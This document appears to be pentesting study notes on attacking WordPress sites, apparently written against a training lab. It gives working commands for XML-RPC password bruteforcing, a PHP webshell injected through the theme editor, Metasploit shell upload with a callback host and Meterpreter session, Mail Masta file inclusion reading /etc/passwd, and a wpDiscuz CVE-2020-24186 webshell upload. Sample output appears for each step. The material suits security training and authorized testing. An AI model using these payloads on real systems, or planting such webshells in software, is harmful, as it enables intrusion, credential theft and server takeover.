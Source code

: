 https://hacktricks.boitatech.com.br/pentesting/pentesting-web/wordpress
## WordPress – Attacking
### Objective

Gain code execution and shell access through:

1. Login bruteforce    
2. Abuse of theme editor
3. Metasploit exploitation
4. Plugin vulnerabilities (Mail Masta, wpDiscuz)
### 1. Login Bruteforce (WPScan)

#### Command Syntax:

```bash
sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://<target>
```

#### Key Flags:

- `--password-attack xmlrpc` – uses `/xmlrpc.php` API for faster bruteforce    
- `-U` – single user or file with usernames
- `-P` – password wordlist
- `-t` – number of threads
#### Example Output:

```
[SUCCESS] - john / firebird1
```
### 2. Code Execution via Theme Editor (Manual)

#### Prerequisites:

- Admin panel access (e.g., `john:firebird1`)    
#### Steps:

1. Log into `/wp-login.php`    
2. Navigate to `Appearance > Theme Editor`
3. Switch to an inactive theme (e.g., Twenty Nineteen)
4. Choose `404.php` or similar unused file
5. Inject payload:

```php
system($_GET[0]);
```

6. Save file    
#### Test Webshell:

```bash
curl http://<target>/wp-content/themes/twentynineteen/404.php?0=id
```

#### Output:

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
### 3. Code Execution via Metasploit (Automatic)

#### Module:

```
exploit/unix/webapp/wp_admin_shell_upload
```
#### Configuration:

```bash
set USERNAME john
set PASSWORD firebird1
set LHOST 10.10.14.15
set RHOST 10.129.42.195
set VHOST blog.inlanefreight.local
```
#### Run:

```bash
exploit
```
#### Example Output:

```
[*] Meterpreter session 1 opened
meterpreter > getuid
Server username: www-data (33)
```
#### Cleanup:

- Metasploit tries deleting files:    
    - `/wp-content/plugins/<random>/payload.php`
- Always list artifacts in your report appendix.
### 4. Exploiting Vulnerable Plugins

#### Plugin Vulnerability Stats (WPScan DB):

- 89% Plugins    
- 7% Themes
- 4% WordPress Core
### 4.1 Mail Masta – LFI + SQLi

#### Vulnerable Code:

```php
include($_GET['pl']);  // No sanitization
```
#### Exploit:

```bash
curl -s http://<target>/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```
#### Output:

```
root:x:0:0:root:/root:/bin/bash
...
```
### 4.2 wpDiscuz 7.0.4 – RCE (CVE-2020-24186)

#### Vulnerability:

- File upload bypass: PHP file accepted as image via MIME tricks    
- Results in unauthenticated RCE
#### Exploit Script:

```bash
python3 wp_discuz.py -u http://<target> -p /?p=1
```
#### Upload Output:

```
Generated webshell name: uthsdkbywoxeebg
Upload Success: /wp-content/uploads/2021/08/uthsdkbywoxeebg-<random>.php
```
#### Execute Command via Webshell:

```bash
curl -s http://<target>/wp-content/uploads/2021/08/uthsdkbywoxeebg-<random>.php?cmd=id
```
#### Output:

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
#### Note:

- Cleanup webshell post-exploit. 
- Log artifact and path in your report.
### Bonus Tactic – Wayback Machine Recon

- Use `waybackurls` to find outdated plugin paths:    

```bash
waybackurls blog.inlanefreight.local | grep wp-content
```

- Look for outdated/leftover plugin folders
### Summary

|Exploit Path|Details|
|---|---|
|Login Bruteforce|XML-RPC bruteforce with WPScan|
|Manual RCE|Via theme editor and inactive theme (e.g., 404.php)|
|Auto Shell Upload|Metasploit’s `wp_admin_shell_upload` with credentials|
|Mail Masta Exploit|LFI via unsanitized `include($_GET['pl'])`|
|wpDiscuz Exploit|File upload bypass to RCE (CVE-2020-24186)|
|Artifact Handling|Cleanup all shells, report artifacts (name, path, method)|
# Tags
> #Exploitation #Application-Exploitation #Wordpress